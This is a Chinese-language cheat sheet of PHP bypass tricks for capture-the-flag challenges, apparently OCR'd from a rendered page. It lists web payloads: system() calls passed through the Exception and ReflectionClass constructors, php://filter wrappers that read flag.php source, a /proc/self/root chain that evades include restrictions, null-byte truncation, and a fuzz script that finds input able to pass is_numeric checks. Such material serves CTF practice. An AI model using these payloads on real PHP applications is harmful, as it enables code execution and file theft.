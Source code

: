 在php中常用的指定模式搜索，正则表达式中更加常用，所以我们在使用模式的时候，使用`%00`截断更加重要了，还有就是`%0a`%`26``%09`.

### 10 异常处理函数巧用绕过

```
?v1=Exception&v2=system('cat fl36dg.txt') ?v1=Reflectionclass&v2=system('cat fl36dg.txt')
返回 ReflectionClass 对象字符串的表示形式。
ReflectionMethod 
返回类的注释
```

### 11 奇怪的获取目录文件方法

```
?v1=FilesystemIterator&v2=getcwd
```

https://www.php.net/manual/zh/class.filesystemiterator.php

这个内置类好用，good。

```
1-eE.xX
```



### 12 超全局变量

`通过利用超全局变量将所有可用的变量都打印出来`

### 14 php伪协议

```
php://filter/resource=flag.php
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
php://filter/read=convert.quoted-printable-encode/resource=flag.php
compress.zlib://flag.php
```

### 15 软链接绕过文件包含限制

```
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

### 16  遇事不决就找所有的字符串

```
function filter($num){

$num=str_replace("0x","1",$num);
$num=str_replace("0","1",$num);
$num=str_replace(".","1",$num);
$num=str_replace("e","1",$num);
$num=str_replace("+","1",$num);
return $num;
}
for ($i=0; $i <=128 ; $i++) {

$num=chr($i).'36';
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36')){

    echo urlencode(chr($i))."\n";
}
}
```